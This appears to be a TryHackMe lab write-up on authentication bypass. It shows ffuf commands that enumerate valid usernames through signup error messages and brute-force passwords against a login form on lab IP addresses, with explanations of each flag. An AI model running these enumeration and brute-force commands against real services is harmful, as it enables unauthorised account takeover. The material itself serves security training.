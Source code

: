 # Authentication Bypass

```
https://tryhackme.com/room/authenticationbypass
```

http://10.10.16.149/customers/signup

### Task 2 Username Enumeration

![image](https://user-images.githubusercontent.com/44063862/159839376-ecb9c3ce-fddc-4a34-bf7b-bab783a602c6.png)

When i try to create an account for "Admin", i got an error stated that username already exixts.

![image](https://user-images.githubusercontent.com/44063862/159839498-76054547-d307-4840-beef-46339deddfc9.png)

Using ffuf to 

> ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.16.149/customers/signup -mr "username already exists"

-w list of usernames

-X request method (GET request by default)

-d specifies the data that we are going to send (Ex: username, email, password and cpassword)

-H for adding additional headers to the request

-u specifies the URL we are making the request to

-mr text on the page we are looking for to validate we've found a valid username (error text)

![image](https://user-images.githubusercontent.com/44063862/159850599-dbd6e4f8-0211-4f1e-b33e-ef4126b6f1b6.png)

![image](https://user-images.githubusercontent.com/44063862/159862778-e22c8d7d-af92-485a-bf70-ce96a71564fc.png)

so we can verify that there's 4 username (admin, robert, simon and steve)

---------------------------------------------------------------------------------------------------------------------

### Task 3 Brute Force

http://10.10.157.211/customers/login

> ffuf -w /root/valid_usernames.txt:W1,/root/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.157.211/customers/login -fc 200

W1 for our list of valid usernames (admin, steve, simon, robert)
W2 for the list of passwords we will try
-fc argument to check for an HTTP status code other than 200

![image](https://user-images.githubusercontent.com/44063862/159868593-937006ff-2218-46cb-ac65-6b710676abd3.png)

